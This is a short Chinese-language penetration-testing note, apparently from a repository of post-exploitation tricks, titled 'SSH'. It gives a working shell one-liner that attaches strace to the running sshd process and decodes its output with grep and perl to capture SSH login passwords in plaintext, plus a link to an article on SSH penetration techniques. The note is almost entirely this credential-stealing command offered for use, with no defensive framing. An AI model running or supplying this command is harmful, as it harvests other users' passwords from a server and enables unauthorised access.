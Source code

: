 # SSH







可以获取ssh的登陆密码，可以在监测sshlogin过程中ssh密码明文
```shell
strace -xx -fp `cat /var/run/sshd.pid` 2>&1 | grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```
![](pic/SSH1.png)



## 资料

渗透技巧之SSH篇

http://www.91ri.org/9255.html